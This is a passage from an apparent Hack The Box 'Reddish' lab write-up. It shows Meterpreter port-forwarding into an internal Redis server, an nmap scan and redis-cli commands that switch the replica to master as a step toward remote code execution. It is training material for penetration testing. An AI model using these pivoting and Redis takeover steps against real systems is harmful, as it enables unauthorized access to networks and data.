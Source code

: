 ![Untitled](/img/htb-reddish/Untitled%2011.png)

I better leave this webpage and check what's in the other IP.

We know 172.19.0.2 IP only have 6379 port open. So I Port Fwd it too.

```bash
meterpreter > portfwd add -l 6379 -r 172.19.0.2 -p 6379
[*] Local TCP relay created: :6379 [-](-) 172.19.0.2:6379
```

I ran Nmap scan on it and its a redis service.

```bash
root@kali:~/boxes/reddish# nmap -A -p6379 127.0.0.1
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-19 03:51 EDT
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000049s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.9
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Network Distance: 0 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.20 seconds
```

There are possibilities to get a shell from here.

We can interact with it using redis-cli. While checking the info, I came to know I'm in the role of slave. We need to have Master role to do some Privilege Work.

```bash
root@kali:~/boxes/reddish/Redis-RCE# sudo redis-cli -h 127.0.0.1
127.0.0.1:6379> info
.
.
.
.
.
.
# Replication
role:slave
```

So I changed my role to Master.

```bash
127.0.0.1:6379> slaveof no one
OK
(0.55s)
127.0.0.1:6379> info
.
.
.
.
.
.
# Replication
role:master
```
